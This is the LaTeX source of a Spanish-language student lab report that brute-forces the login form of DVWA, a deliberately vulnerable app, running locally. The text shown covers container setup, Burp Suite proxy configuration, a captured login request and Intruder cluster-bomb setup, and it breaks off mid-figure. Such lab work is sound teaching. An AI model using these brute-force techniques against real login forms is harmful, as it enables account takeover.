\documentclass[letterpaper,12pt]{article}
\usepackage[paperheight=27.94cm,paperwidth=21.59cm,bindingoffset=0in,left=3cm,right=2.0cm, top=3.5cm,bottom=2.5cm, headheight=200pt, headsep=1.0\baselineskip]{geometry}
\usepackage{graphicx,lastpage}
\usepackage{upgreek}
\usepackage{censor}
\usepackage[spanish,es-tabla]{babel}
\usepackage{pdfpages}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{adjustbox}
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{rotating}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\usepackage{float}
\usepackage{hyperref}
% Control de posicionamiento de figuras para que no invadan subsecciones siguientes
\usepackage[section]{placeins} % provee \FloatBarrier
% Inserta una barrera de flotantes antes de cada nueva subsección para forzar
% que las figuras previas aparezcan dentro de la subsección donde fueron declaradas.
\let\origsubsection\subsection
\renewcommand{\subsection}{\FloatBarrier\origsubsection}
\usepackage{fancyvrb}
\usepackage{fvextra}
\RecustomVerbatimEnvironment{verbatim}{Verbatim}{breaklines=true,breakanywhere=true}

\renewcommand{\tablename}{Tabla}
\usepackage{fancyhdr}
\pagestyle{fancy}

\fancyhead[L]{}
%
\begin{document}
%
   \title{\Huge{Informe Laboratorio 2}}

   \author{\textbf{Sección 2} \\  \\Camilo Rojas \\ e-mail: camilo.pinto1@mail.udp.cl}
          
   \date{Octubre de 2025}

   \maketitle
   
   \tableofcontents
 
  \newpage
  

\section{Descripción de actividades}
Utilizando la aplicación web vulnerable DVWA

(Damn Vulnerable Web App - \href{https://github.com/digininja/DVWA}{https://github.com/digininja/DVWA} (Enlaces a un sitio externo.)) realice las siguientes actividades:


\begin{itemize}
    \item Despliegue la aplicación en su equipo utilizando docker. Detalle el procedimiento y explique los parámetros que utilizó.
    \item Utilice Burpsuite (https://portswigger.net/burp/communitydownload (Enlaces a un sitio externo.)) para realizar un ataque de fuerza bruta contra formulario ubicado en vulnerabilities/brute. Explique el proceso y obtenga al menos 2 pares de usuario/contraseña válidos. Muestre las diferencias observadas en burpsuite.
    \item Utilice la herramienta cURL, a partir del código obtenido de inspect elements de su navegador, para realizar un acceso válido y uno inválido al formulario ubicado en vulnerabilities/brute. Indique 4 diferencias entre la página que retorna el acceso válido y la página que retorna un acceso inválido.
    \item Utilice la herramienta Hydra para realizar un ataque de fuerza bruta contra formulario ubicado en vulnerabilities/brute. Explique el proceso y obtenga al menos 2 pares de usuario/contraseña válidos.
    \item Compare los paquetes generados por hydra, burpsuite y cURL. ¿Qué diferencias encontró? ¿Hay forma de detectar a qué herramienta corresponde cada paquete?

    \item Desarrolle un script en Python para realizar un ataque de fuerza bruta:

    \begin{itemize}
        \item Utilice la librería requests para interactuar con el formulario ubicado en vulnerabilities/brute y desarrollar su propio script de fuerza bruta en Python.
        El script debe realizar intentos de inicio de sesión probando una lista de combinaciones de usuario/contraseña.

        \item  Identifique y explique la cabecera HTTP que empleará para realizar el ataque de fuerza bruta.

        \item  Muestre el código y los resultados obtenidos (al menos 2 combinaciones válidas de usuario/contraseña).

        \item Compare el rendimiento de este script en Python con las herramientas Hydra, Burpsuite, y cURL en términos de velocidad y detección.
    \end{itemize}

    \item  Investigue y describa 4 métodos comunes para prevenir o mitigar ataques de fuerza bruta en aplicaciones web:

    \begin{itemize}
        \item Para cada método, explique su funcionamiento, destacando en qué escenarios es más eficaz.

    \end{itemize}


    
\end{itemize}

\section{Desarrollo de actividades según criterio de rúbrica}
Para el desarrollo de las siguientes actividades, se utilizó una máquina con Fedora Workstation 42 y Ubuntu Desktop LTS. Se utilizó Podman y Docker respectivamente, manteniendo consistencia para los archivos de configuración del contenedor en ambos sistemas.
\subsection{Levantamiento de docker para correr DVWA (dvwa)}
Se obtiene la imagen oficial de DVWA desde Docker Hub (\url{https://hub.docker.com/r/vulnerables/web-dvwa}) y se ejecuta con Docker o Podman.
\begin{verbatim}

camilo@fedora:/var/www/html/dvwa/config$ sudo podman run --rm -it -p 80:80 vulnerables/web-dvwa
[OK] docker.io/vulnerables/web-dvwa:latest
Trying to pull docker.io/vulnerables/web-dvwa:latest...
Getting image source signatures
Copying blob 6cff5f35147f done   | 
Copying blob 3e17c6eae66c done   | 
Copying blob 0c57df616dbf done   | 
Copying blob eb05d18be401 done   | 
Copying blob e9968e5981d2 done   | 
Copying blob 2cd72dba8257 done   | 
Copying blob 098cffd43466 done   | 
Copying blob b3d64a33242d done   | 
Copying config ab0d83586b done   | 
Writing manifest to image destination
[+] Starting mysql...
[ ok ] Starting MariaDB database server: mysqld.
[+] Starting apache
[....] Starting Apache httpd web server: apache2AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 10.88.0.2. Set the 'ServerName' directive globally to suppress this message
. ok 
==> /var/log/apache2/access.log <==

==> /var/log/apache2/error.log <==
[Wed Oct 01 23:25:52.197358 2025] [mpm_prefork:notice] [pid 297] AH00163: Apache/2.4.25 (Debian) configured -- resuming normal operations
[Wed Oct 01 23:25:52.197422 2025] [core:notice] [pid 297] AH00094: Command line: '/usr/sbin/apache2'

==> /var/log/apache2/other_vhosts_access.log <==

==> /var/log/apache2/access.log <==
10.88.0.1 - - [01/Oct/2025:23:26:05 +0000] "GET / HTTP/1.1" 302 479 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"
10.88.0.1 - - [01/Oct/2025:23:26:05 +0000] "GET /login.php HTTP/1.1" 200 1049 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0"

\end{verbatim}
\subsection{Redirección de puertos en docker (dvwa)}
Para redirigir el tráfico entre un navegador web y la aplicación web DVWA que corre dentro del contenedor Docker, primero se necesita un certificado CA emitido por Burp Suite (figura \ref{fig:certificateburp}). Luego, este certificado debe ser importado en el navegador web para que confíe en las conexiones interceptadas por Burp Suite (figura \ref{fig:certificate}). Finalmente, se configura Burp Suite para que escuche en un puerto específico y se ajusta el navegador para que utilice este puerto como proxy (figuras \ref{fig:proxygeneralsetting} y \ref{fig:proxylistener}).
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 22-50-08.png}
    \caption{Ventana de exportación de certificado CA desde Burp Suite}
    \label{fig:certificateburp}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 22-52-57.png}
    \caption{Importación de certificado CA en navegador web Firefox}
    \label{fig:certificate}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 23-12-48.png}
    \caption{Ventana que muestra los ajustes generales del proxy en Burp Suite}
    \label{fig:proxygeneralsetting}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 23-12-53.png}
    \caption{Ventana que muestra el ajuste de manejo de un 'proxy listener'}
    \label{fig:proxylistener}
\end{figure}
La aplicación DVWA se encuentra disponible en \url{http://localhost:8889} y se muestra en la figura \ref{fig:dvwastartscreen}. Por defecto, y durante el desarrollo del laboratorio, se mantuvo el nivel de seguridad en bajo.
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{levanteyredireccione/Captura desde 2025-10-01 23-14-34.png}
    \caption{Captura de pantalla de sitio DVWA levantado localmente}
    \label{fig:dvwastartscreen}
\end{figure}
\subsection{Obtención de consulta a replicar (burp)}
Para obtener la consulta HTTP a replicar, se puede colocar utilizar cualquier combinación de usuario y contraseña en el formulario de inicio de sesión, y luego observar la solicitud generada en Burp Suite (figura \ref{fig:sidetoside}).
\begin{verbatim}

GET /vulnerabilities/brute/?username=jdsfnjdsbsj&password=jkfdnjfb&Login=Login HTTP/1.1
Host: localhost:8889
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-CL,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://localhost:8889/vulnerabilities/brute/
Cookie: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i


\end{verbatim}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Captura desde 2025-10-02 23-41-56.png}
    \caption{Formulario para probar ataque de fuerza bruta, e historial HTTP con un registro}
    \label{fig:sidetoside}
\end{figure}
\subsection{Identificación de campos a modificar (burp)}
La secuencia de capturas ilustra el flujo mínimo para preparar un ataque con Intruder: (i) desde el historial HTTP se envía la petición del formulario a Intruder (Figura~\ref{fig:sendtointuder}); (ii) en la vista principal (Figura~\ref{fig:intruder}) se marcan como posiciones los parámetros \texttt{username} y \texttt{password}; (iii) cada posición recibe una lista corta de candidatos (Figuras~\ref{fig:payload1} y \ref{fig:payload2}); (iv) se configura el tipo de ataque \emph{Cluster bomb} que genera el producto cartesiano de ambas listas (Figura~\ref{fig:ataqueslistasimple}); y (v) al finalizar, una respuesta más larga y con el mensaje de bienvenida confirma credenciales válidas (Figura~\ref{fig:intrudersuccesfulattack}). Esta preparación permite comparar después los mismos diccionarios en cURL, Hydra y el script en Python.
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-19-38.png}
    \caption{Send to Intruder}
    \label{fig:sendtointuder}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-20-22.png}
    \caption{Intruder full screen}
    \label{fig:intruder}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-25-19.png}
    \caption{Payload 1}
    \label{fig:payload1}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-25-58.png}
    \caption{Payload 2}
    \label{fig:payload2}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-26-54.png}
    \caption{Lista de ataques por lista simple}
    \label{fig:ataqueslistasimple}
\end{figure}
\begin{figure}
    \centering
